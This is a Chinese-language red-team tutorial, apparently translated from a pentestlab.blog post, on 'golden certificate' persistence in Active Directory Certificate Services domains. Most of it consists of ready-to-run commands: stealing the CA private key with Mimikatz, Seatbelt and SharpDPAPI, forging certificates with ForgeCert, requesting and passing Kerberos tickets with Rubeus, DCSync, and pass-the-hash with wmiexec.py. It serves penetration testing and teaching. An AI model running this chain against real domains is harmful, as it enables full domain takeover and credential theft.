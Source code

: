 # 利用黄金证书劫持域控
域控渗透最常见的域持久性技术之一是黄金票据攻击，它涉及使用“ krbtgt ”的 NTLM 哈希创建 kerberos 票证。“ 帐户。但是在部署了 Active Directory 认证服务 (AD CS) 的服务器的域中，可能会在发生入侵时被滥用以实现域持久性。通过窃取 CA 证书的私钥，红队可以伪造和签署证书以用于身份验证。在部署 Active Directory 证书服务 (AD CS) 期间，域中默认启用基于证书的身份验证。因此，需要将这些系统视为第 0 层资产并得到适当保护。

通过黄金证书执行域持久化需要以下步骤：

1.	证书提取 (CA)

2.	伪造CA证书

3.	获取 Kerberos 票证（DC 的机器账户）

4.	执行pass票证

## 证书提取
CA 证书和私钥存储在 CA 服务器中。使用与系统的 RDP 连接，可以使用“ certsrv.msc ”的备份功能检索这些信息。

![](/img/利用黄金证书劫持域控/1.png)

<center>
certsrv – 备份 CA
</center>
在证书颁发机构备份向导中，私钥和 CA 证书都可以导出到指定位置。

![](/img/利用黄金证书劫持域控/2.png)

<center>
certsrv – 私钥和备份位置
</center>
CA 证书将导出为 p12 文件（个人信息交换）。

![](/img/利用黄金证书劫持域控/3.png)

<center>
certsrv – 提取的 CA
</center>
但是，还有多种其他方法可用于从服务器提取 CA 证书和私钥。使用参数“ Certificates ”执行Seatbelt可以枚举存储的CA证书。

    Seatbelt.exe Certificates

![](/img/利用黄金证书劫持域控/4.png)

<center>
Seatbelt – 本地机器
</center>
Mimikatz 还可以与加密存储进行交互，以检索和导出证书和私钥。修补“ CryptoAPI ”和“ KeyIso ”不可导出的密钥将可以从许多密钥提供程序导出。

    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export

![](/img/利用黄金证书劫持域控/5.png)

<center>
Mimikatz – 导出证书
</center> 


![](/img/利用黄金证书劫持域控/6.png)

<center>
Mimikatz - CA 证书
</center>

证书将以 .DER 和 .PFX 格式提取到磁盘上。

![](/img/利用黄金证书劫持域控/7.png)


SharpDPAPI也可用于提取证书。执行“ certificates /machine ”命令将使用机器证书存储来提取可解密的机器证书和私钥。

    SharpDPAPI.exe certificates /machine

![](/img/利用黄金证书劫持域控/8.png)

<center>
SharpDPAPI – 机器证书
</center>

私钥和证书都将显示在控制台中。

![](/img/利用黄金证书劫持域控/9.png)

<center>
SharpDPAPI - CA 证书
</center>
 
提取的私钥和证书可以写入扩展名为 .PEM 的文件中。执行以下命令可以将证书转换为可用格式，如 .PFX 允许用于使用 Rubeus 进行身份验证。

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

![](/img/利用黄金证书劫持域控/10.png)

<center>
将证书转换为 PFX
</center> 

## 伪造CA证书
Mimikatz 可用于通过使用“ crypto::scauth ”模块来伪造和签署证书。该模块最初是为创建智能卡身份验证客户端证书而开发的。所需的参数是证书颁发机构的主题名称和将创建证书的用户的用户主体名称。可选项，“ /pfx ”参数可用于定义将要创建的证书的文件名。

    crypto::scauth /caname:ca /upn:pentestlab@purple.lab

![](/img/利用黄金证书劫持域控/11.png)

<center>
伪造CA证书——Mimikatz
</center> 

或者，ForgeCert是由Lee Christensen在 C# 中开发的，它使红队能够使用 CA 证书为任何域用户伪造证书进行身份验证。该工具可以注入内存中执行，并将文件写入磁盘。执行以下命令将为“ pentestlab ”用户创建一个假证书，该证书将由 CA 证书的私钥签名。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName pentestlab@purple.lab --NewCertPath localadmin.pfx --NewCertPassword Password123

![](/img/利用黄金证书劫持域控/12.png)

<center>
伪造CA证书-域用户
</center> 

应该注意的是，必须为域上的活动用户创建证书。因此它不能用于“ krbtgt ”帐户。伪造证书的有效期为1年，只要CA证书有效（一般为5年）就有效。除了域用户帐户外，机器帐户也可用于域持久性，因为可以使用 DCSync、Pass the Ticket 和 S4U2Self 等技术。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@purple.lab --NewCertPath DC$.pfx --NewCertPassword Password123

![](/img/利用黄金证书劫持域控/13.png)

<center>
伪造证书-机台账
</center> 

## Kerberos 票证
可以使用伪造的证书从密钥分发中心 (KDC) 请求 Kerberos 票证以进行身份验证。

    Rubeus.exe asktgt /user:pentestlab /certificate:localadmin.pfx /password:Password123

![](/img/利用黄金证书劫持域控/14.png)

<center>
Rubeus – Kerberos 票证 
</center>  
 

![](/img/利用黄金证书劫持域控/15.png)

<center>
Rubeus - 域用户票
</center>  

## 通过票证
可以从域中的任何主机使用属于域控制器的机器帐户的证书来请求 Kerberos 票证。执行以下命令将检索 base64 格式的票证。

    Rubeus.exe asktgt /user:DC$ /certificate:DC$.pfx /password:Password123

![](/img/利用黄金证书劫持域控/16.png)

<center>
Rubeus - 请求 DC 机器帐户的票证 
</center> 


![](/img/利用黄金证书劫持域控/17.png)

<center>
DC 机器帐户 Base64 票证 
</center> 

base64 票证可以被解码并写入扩展名为 .kirbi 的文件中。

    echo "<base64>" | base64 -d > dc$.kirbi

![](/img/利用黄金证书劫持域控/18.png)

<center>
将 Base64 票证转换为 Kirby
</center>  

票证可以传输到任何 Windows 主机，并使用传递票证技术导入任何用户会话。

    Rubeus.exe ptt /ticket:dc$.kirbi

![](/img/利用黄金证书劫持域控/19.png)

<center>
Rubus – 通过票证
</center>

由于票据属于域控制器的计算机帐户，因此可以执行提升的活动，例如 DCSync。从当前执行 Mimikatz 并运行以下命令的会话中，将检索作为域管理员帐户的用户 Administrator 的 NTLM 哈希。

    lsadump::dcsync /user:Administrator

![](/img/利用黄金证书劫持域控/20.png)

<center>
Mimikatz – DCSync
</center>

散列可用于通过散列技术或通过 WMI 连接建立对域控制器的访问。

    python3 wmiexec.py -hashes :58a478135a93ac3bf058a5ea0e8fdb71 Administrator@10.0.0.1

![](/img/利用黄金证书劫持域控/21.png)

<center>
WMI 连接 - 域控制器
</center> 


## 参考链接

https://github.com/GhostPack/Seatbelt

https://github.com/GhostPack/SharpDPAPI

https://github.com/GhostPack/ForgeCert

https://pentestlab.blog/2021/11/15/golden-certificate/
